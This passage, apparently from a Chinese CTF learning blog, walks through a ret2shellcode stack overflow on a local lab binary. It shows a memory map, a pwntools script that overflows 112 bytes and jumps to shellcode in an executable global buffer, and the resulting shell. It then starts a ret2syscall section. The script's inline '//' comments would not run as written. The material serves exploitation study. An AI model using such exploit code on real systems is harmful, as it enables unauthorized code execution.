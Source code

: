 ```bash
0xf7fd0000 0xf7fd3000 r--p     3000 0      [vvar]
0xf7fd3000 0xf7fd5000 r-xp     2000 0      [vdso]
0xf7fd5000 0xf7fd6000 r-xp     1000 0      /lib32/ld-2.27.so
0xf7fd6000 0xf7ffb000 r-xp    25000 1000   /lib32/ld-2.27.so
0xf7ffc000 0xf7ffd000 r-xp     1000 26000  /lib32/ld-2.27.so
0xf7ffd000 0xf7ffe000 rwxp     1000 27000  /lib32/ld-2.27.so
0xfffdd000 0xffffe000 rwxp    21000 0      [stack]
```
会发现`` 0x804a000  0x804b000 rwxp     1000 1000   /root/Rep/ret2shellcode``是可以执行的
后面还是与上面例子一样查覆盖多少数据 依旧是0x6c+4 后加返回地址 不过我们这个的返回不同 我们让它返回到该全局变量 因为全局变量段可执行
```python
#!/usr/bin/python
from pwn import *
sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())     //shellcrft.sh()自动生成shellcode  asm将其转成机器码
buf2_addr = 0x804a080                //全局变量地址
sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))  //因为要覆盖112个字节 生成的shellcode字节不够 用ljust对齐112字节 不够的补充垃圾字符 
sh.interactive()
```
执行后
```bash
[ 10:23下午 ]  [ root@pgone:~/Rep ]
 $ python flag.py 
[+] Starting local process './ret2shellcode': pid 4334
[*] Switching to interactive mode
No system for you this time !!!
bye bye ~$ ls
1              libc-2.23.so              ret2shellcode
ROPgadget-master      peda-session-hash.txt          ret2text
ROPgadget-master.zip  peda-session-ret2shellcode.txt  rop
flag.py              peda-session-ret2text.txt       ropbaby
hash              peda-session-uaf.txt          uaf
$ pwd
/root/Rep
```

<h2>ret2syscall</h2>
原理:执行系统调用
这个也是刚刚学到的新姿势
先checksec一下

```bash
[ 10:28下午 ]  [ root@pgone:~/Rep ]
 $ checksec rop
[*] '/root/Rep/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
开启了NX保护 拖入IDA后发现也没有内涵的函数可以让我们执行shell
所以我们利用程序中的 gadgets 来获得 shell，而对应的 shell 获取则是利用系统调用
